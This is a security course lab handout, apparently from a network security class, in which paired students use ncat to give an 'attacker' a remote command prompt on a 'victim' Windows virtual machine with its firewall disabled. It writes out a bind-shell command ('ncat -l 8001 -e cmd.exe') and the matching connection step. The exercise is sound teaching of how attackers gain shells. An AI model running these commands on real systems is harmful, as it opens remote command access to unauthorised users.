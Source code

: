 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Getting a Shell

## Objective

Examine and test how threat actors obtain a shell on a remote computer.

**NOTE: This lab is similar to what you did when you used Metasploit to exploit your Windows XP system.**

## Discussion

It is important to understand how attackers are able to obtain a shell on a remote system since it is a common method of maintaining access and stealing data (exfiltration or exfil). Notice that they are able to use any arbitrary port.

## Preparation

1. Each person must change the Network Adapter on their Windows 10 Virtual Machine to “NETSEC-WAN”
   1. You may have to run: ipconfig /release ; ipconfig/renew
2. You should have an IP address in the 10.0.16.XXX range
3. Download nmap on your Windows 10 Virtual Machine: [https://nmap.org/dist/nmap-7.93-setup.exe](https://nmap.org/dist/nmap-7.93-setup.exe)

## Scenario

Assume two systems can directly communicate to each other on an arbitrary port (ie. there's no firewall or other device preventing them from communicating directly to each other.) **Alice is the victim** and **Eve is the attacker** so one of you will be Alice for the duration of the assignment and the other one Eve. **When the first person is done with this lab, switch roles.**

## Begin Lab Preparation

1. **Make a note of each other’s IP address.**
2. **Ensure the two Windows workstations can ping each other and disable the firewall on both hosts.**

**Goal: On Alice’s computer, a \_listener \_(-l**) (lower case L) is started on port 8001 and anyone that connects to it will get a command prompt on Alice's computer. The **-v** is for \_verbose \_mode. It is always a good option so you know what is going on as the shell is being set up.

Alice (Type the command): **ncat -l 8001 -e cmd.exe -v**

Eve Connects to Alice's computer on port 8001.

Eve (Type the command):\*\* ncat X.X.X.X 8001\*\*

Replace X.X.X.X with the IP address of Alice’s computer.

Eve should now see something like this:

**Microsoft Windows \[Version 6.1.7601]**

**Copyright (c) 2009 Microsoft Corporation. All rights reserved.**

**c:\Program Files\Nmap>**

Eve is now logged into Alice's system and can type commands as if she was sitting in front of Alice’s computer.

Run the command:

**ipconfig /all**

which should display the IP address of the windows system of your Partner.
